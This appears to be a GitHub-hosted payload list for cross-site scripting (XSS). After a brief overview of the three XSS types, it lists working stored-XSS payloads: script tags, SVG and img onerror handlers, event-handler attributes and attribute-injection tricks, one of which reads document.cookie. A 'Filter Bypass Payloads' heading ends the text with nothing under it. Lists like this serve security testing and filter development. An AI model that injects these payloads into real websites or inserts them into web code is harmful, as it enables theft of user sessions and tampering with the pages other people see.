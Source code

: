 
# XSS Payload Collection

# Overview

Cross-Site Scripting (XSS) is a type of security vulnerability typically found in web applications. It allows attackers to inject malicious scripts into web pages viewed by other users. There are three main types of XSS attacks: **Stored XSS, Reflected XSS, and DOM-based XSS**. This page provides a comprehensive collection of XSS payloads for each type, including advanced and encrypted payloads for bypassing filters.

# Stored XSS Payloads

# Basic Payloads

```html
<script>alert('XSS');</script>
<script>alert(document.cookie);</script>
<img src=x onerror=alert('XSS')>
```

# Advanced Payloads

```html
<svg/onload=alert('XSS')>
<body onload=alert('XSS')>
<iframe src="javascript:alert('XSS');"></iframe>
```

# Event Handlers

```html
<div onmouseover="alert('XSS')">Hover over me!</div>
<input type="text" value="XSS" onfocus="alert('XSS')">
<a href="#" onclick="alert('XSS')">Click me</a>
```

# Attribute Injection

```html
<math><mtext><malignmark><mi><audio autoplay onloadstart=alert('XSS')></audio>
<xss style="xss:expression(alert('XSS'))">
<marquee width=1 loop=1 scrollamount=1 onfinish=confirm(1)>
```

# Filter Bypass Payloads
